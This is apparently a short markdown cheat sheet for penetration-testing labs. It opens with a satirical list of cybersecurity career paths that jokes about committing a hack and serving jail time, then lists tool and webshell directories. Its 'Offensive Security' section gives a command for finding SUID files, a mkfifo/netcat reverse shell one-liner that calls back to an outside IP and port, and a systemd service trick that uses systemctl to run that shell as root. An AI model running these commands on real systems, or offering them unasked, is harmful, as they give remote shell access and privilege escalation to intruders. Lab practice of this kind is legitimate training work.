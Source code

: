 


## Career Paths in Cybersecurity
### Traditional Path
- Learn reverse engineering, malware analysis, and forensics.
- Progression: Forensic Analyst → Researcher → Director → CISO → Security Consultant (Approx. 20 years).

### Alternative Path
- Learn reverse engineering and malware analysis.
- Join a cyber gang, commit a major hack, serve jail time.
- Upon release, become a highly-paid security consultant (Approx. 3 years, or 2 with good behavior).

---

## Common File Locations
- **Tools**: `/root/Desktop/Tools` & `/opt/`
- **Webshells**: `/usr/share/webshells`
- **Wordlists**: `/usr/share/wordlists`
- **READMEs**: `/root/Instructions`
- **Empire & Starkiller Guide**: `/root/Instructions/empire-starkiller.txt`

---

## Offensive Security
### Finding SUID Files
```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
```

### Reverse Shell
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.72 1337 >/tmp/f" > /tmp/shell.sh
```
Create a service to execute it:
```bash
TF=$(mktemp).service

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "bash /tmp/shell.sh"
[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
